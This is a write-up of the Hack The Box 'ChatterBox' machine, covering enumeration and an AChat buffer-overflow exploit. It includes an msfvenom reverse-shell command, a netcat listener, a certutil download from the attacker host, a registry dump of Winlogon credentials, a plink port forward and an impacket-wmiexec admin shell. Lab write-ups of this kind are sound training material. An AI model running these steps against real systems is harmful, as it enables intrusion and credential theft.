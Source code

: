 # ChatterBox [HTB](https://app.hackthebox.com/machines/Chatterbox)
![chatterbox-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/chatterbox-01.png)



## Recon

Lets enumerate the machine with `nmap`:

`nmap -sC -sV -A 10.129.214.7 -oN nmap.result`


![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/nmap-res-02.png)


We
We get the following ports:

+ RPC endpoint-mapper on port 135.
+ SMB on port  445.
+ NetBIOS on port 139.
+ HTTP on port 9255.
+ Custom TCP service on port 9256.
+ Other RPC endpoint on 49152-49157.


We can also see the target is probably a Windows 7 system. 
Lets start by taking a look at the SMB and RPC endpoints and see if we can snatch any quick 
wins there. 



### SMB


Altough we can login anonymously to the IPC$ share with `smbclient -U "%" -N \\\\10.129.214.7\\IPC$`:

![ipc-connect-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ipc-connect-03.png)


We cant do anything inside: 

![ipc-fail-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ipc-fail-04.png)


If we check the SMB version with msf's `scanner/smb/smb_version`, well see that the target 
is running SMB v2.1: 

![msf-res-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/msf-res-05.png)



SMB v2.1, should be vulnerable to `Eternal-Blue`, but after a quick check our target is not:
`scanner/smb/smb_ms17_010`

![eb-res-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/eb-res-06.png)
 

At the moment, SMB doesnt look like the way forward, `enum4linux` yields nothing meaningful, 
and it seems that the SMB is tightly guarded. 

Lets move on to check the HTTP and the custom RPC port. 



### Achat


Trying to open the following URL `http://10.129.214.7:9255/`, quickly fails, nothing happens, 
no error message or redirects. Adding the hostname to our `/etc/hosts` doenst help. 


If we open Burp, we can see we are getting a `204 No-Content` replay: 

![204-replay-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/204-replay-07.png)



At first i thought Achat was a custom service tailored for this box specifically. But after
a quick goolge search i came to find out i was worng. Apparently its an open-source anonymous chat
application, and it has a [github](https://github.com/0301yasiru/aChat).


A quick google search also leads to [this](https://tenaka.gitbook.io/pentesting/boxes/achat) page.
Apparently, Achat is vulnerable to a buffer-overflow attack, and we have the exploit ready on 
our Kali machine in `/usr/share/exploitdb/exploits/windows/remote/36025.py`. 


Here is the exploit breakdown: 

copy the exploit to our CWD `cp /usr/share/exploitdb/exploits/windows/remote/36025.py achat.py`

update the shellcode with the following `msfvenom` command:

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp lhost=<myip> lport=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Take the output, and replace the `buf` varaible in the exploit with it.
Finally, change the target IP in the exploit:

![target-exp-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/target-exp-08.png)


Start the listener: `nc -lnvp 4444`


Execute the exploit `./achat.py`


Get a shell: 

![shell-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/shell-09.png)


## Privilege Escalation


After running a few basic commands from [sushant](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)'s cheat sheet, i found something interesting. 

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`


![pass-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/pass-10.png)


If we list out our open ports on the machine with `netstat -ano` we can see the following: 


![netstat-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/netstat-11.png)


We have all these ports running on the localhost. nmap did manage to detect them for some 
reason. Now that we have credetials however, we could try to get access to them. But since they 
are running on the localhost, we need to setup port forwarding to our attack machine. 

For this we need [plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html),
Download the 32-bit version to your attack machine.

Start a python server `python3 -m http.server 8888`

Download it to the target with `certutil -urlcache -f http://10.10.14.21:8888/plink.exe plink.exe`

![transfer-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/transfer-12.png)


Now we need to change two things in the `/etc/sshd/sshd_config` file on our kali:
First, permit root logins: 

![ssh-mod-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ssh-mod-13.png)


Second, change the deafult port to 2222:

![ssh-mod-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ssh-mod-14.png)


This is necessary beacuse HTB's firewalls block port 22. 
Finally start the ssh service with `service ssh start`.

Now we can run the port forwarding on the target machine with:
`plink.exe -l root -pw <pass> -R 445:127.0.0.0.1:445 10.10.14.68 -P 2222`


![plink-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/plink-15.png)


On our Kali machine we can check the status of port 445 with `netstat -ao | grep 445`:


![445-status-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/445-status-16.png)


We can now start connecting to the SMB on the target through our localhost. 
Lets try logging in to the Admin$ share with `smbclient -U 'Alfred%Welcome1!' //127.0.0.1/Admin$`

![admin-fail-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/admin-fail-17.png)


This fails, says we dont have access. What if we tried to use the same password with the 
Administrator account, after all Alfred and Administrator are the only two users on the machine.
And weve only found this one password in our enumeration, worth a shot. 


![admin-success-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/admin-success-18.png)



That's it, they use the same password. From here we can use `wmiexec` to pop a shell as the admin. 
`impacket-wmiexec Administrator:Welcome1\!@10.129.151.176`


![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/root-19.png)
